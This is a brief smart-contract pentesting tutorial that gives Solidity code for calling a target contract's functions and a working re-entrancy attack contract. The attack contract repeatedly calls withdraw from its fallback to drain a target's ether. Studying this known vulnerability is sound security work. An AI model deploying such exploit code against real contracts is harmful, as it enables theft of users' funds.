 ```yaml
---
title: Smart Contract Attack
description: We can create custom contract for pentesting target smart contract.
tags:
    - Blockchain
    - Ethereum
    - Web3
refs:
date: 2023-08-14
draft: false
---
```


## Call External Contract Function

We can create a smart contract which can call the external function of the published contract if we have the source code of the contract.  
For example, assume the target contract named "Victim" has already been published to Ethereum chain, then we can get the contract address and the source code. In thie situation, we can copy the source to our custom Solidity project and create the following Solidity file (e.g. `Attack.sol`).

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

// Import a target external contract.
import {Victim} from "./Victim.sol";

contract Attack {
    // Attack function
    function callExternalFunc(address _addr, uint256 _param) public {
        // Instantiate the target contract with the address.
        Victim victim = Victim(_addr);
        // We can call specific function of the external contract.
        victim.someFunc(_param);
     }
}
```

After compiling and deploying this contract, we can call `callExternalFunc` function by giving the external contract address and arbitrary parameter.

<br />

## Re-entrancy Attack

It’s a common vulnerability involving withdraw and deposit in Solidity.  
For example, create “Attack.sol”.

```js
pragma solidity ^0.8.10;
import './Target.sol';

contract Attack {

     Target public target;
     constructor(address _targetAddress) {
         target = Target(_targetAddress);
     }

     fallback() external payable {
         if (address(target).balance >= 1 ether) {
             target.withdraw();
         }
     }
     function attack() external payable {
         require(msg.value >= 1 ether);
         target.deposit{value: 1 ether}();
         target.withdraw();
     }

     function getBalance() public view returns (uint) {
         return address(this).balance;
     }
}
```

After compiling, deploy it and run **`attack`** function to get balances by compromising the target contract.
